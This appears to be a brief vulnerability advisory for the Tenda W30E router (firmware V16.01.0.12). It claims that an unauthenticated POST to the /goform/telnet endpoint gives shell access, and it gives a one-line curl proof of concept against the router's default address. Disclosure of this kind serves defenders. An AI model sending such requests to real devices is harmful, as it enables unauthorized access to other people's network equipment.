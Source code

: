 # Tenda W30E Command Execution

**Vender** ：Tenda

**Firmware version**:V16.01.0.12(4843)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda W30E V16.01.0.12(4843) devices. An HTTP request within the handler function of the /goform/telnet  route. This could lead to  Shell Metacharacters.

![1](./1.jpg)



When we send packets, the router will be shell

```
curl -i -X POST http://192.168.0.1/goform/telnet 
```





![poc](./poc.jpg)

